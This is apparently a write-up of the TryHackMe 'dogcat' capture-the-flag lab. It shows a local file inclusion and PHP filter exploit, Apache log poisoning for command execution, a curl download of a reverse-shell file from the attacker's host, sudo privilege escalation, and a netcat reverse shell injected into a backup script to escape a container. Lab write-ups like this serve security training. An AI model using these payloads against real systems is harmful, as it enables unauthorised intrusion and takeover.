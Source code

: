 ## Recon

```
└─# nmap -sS -vvv -Pn --min-rate 2000 $ip
Host is up, received user-set (1.1s latency).
Scanned at 2023-11-11 23:38:58 GMT for 28s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 60
```
I see this `http://10.10.44.239/?view=`
I tried lfi but not work, so i will try php filter
http://10.10.44.239/?view=php://filter/read=convert.base64-encode/resource=./dog/../index
```
└─# echo $base | base64 -d
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
I will try now to get RCE using log poisoning.
http://10.10.44.239/?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../../../../../var/log/apache2/access.log&ext

I tried this : http://10.10.4.115/?view=./dog/../../../../../../etc/passwd&ext
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
http://10.10.4.115/?view=./dog/../../../../../../../../../var/log/apache2/access.log&ext=
http://10.10.4.115/?view=./dog/../../../../../../../../../var/log/apache2/access.log&ext=&cmd=ls%20/
http://10.10.4.115/?view=./dog/../../../../../../../../../var/log/apache2/access.log&ext=&cmd=curl%20-o%20rev.php%2010.4.26.216/rev.php
I execute my php now
```
http://10.10.4.115/?view=./dog/../../../../../../../../../var/log/apache2/access.log&ext=&cmd=php%20rev.php

ls -la
total 48
drwxrwxrwx 4 www-data www-data 4096 Nov 12 15:35 .
drwxr-xr-x 1 root     root     4096 Mar 10  2020 ..
-rw-r--r-- 1 www-data www-data   51 Mar  6  2020 cat.php
drwxr-xr-x 2 www-data www-data 4096 Nov 12 15:19 cats
-rw-r--r-- 1 www-data www-data   51 Mar  6  2020 dog.php
drwxr-xr-x 2 www-data www-data 4096 Nov 12 15:19 dogs
-rw-r--r-- 1 www-data www-data   56 Mar  6  2020 flag.php
-rw-r--r-- 1 www-data www-data  958 Mar 10  2020 index.php
-rw-r--r-- 1 www-data www-data 9285 Nov 12 15:35 rev.php
-rw-r--r-- 1 www-data www-data  725 Mar 10  2020 style.css
cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

## Escalation
```
sudo -l
Matching Defaults entries for www-data on c5c93780b439:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on c5c93780b439:
    (root) NOPASSWD: /usr/bin/env

    RunAsUsers: root
    Options: !authenticate
    Commands:
    /usr/bin/env
sudo /usr/bin/env /bin/sh
whoami
root

flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}


```
## Escaping the Container

```
cd /opt/backups
ls
backup.sh
backup.tar
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.26.216 1338 >/tmp/f' >> backup.sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.26.216 1338 >/tmp/f
```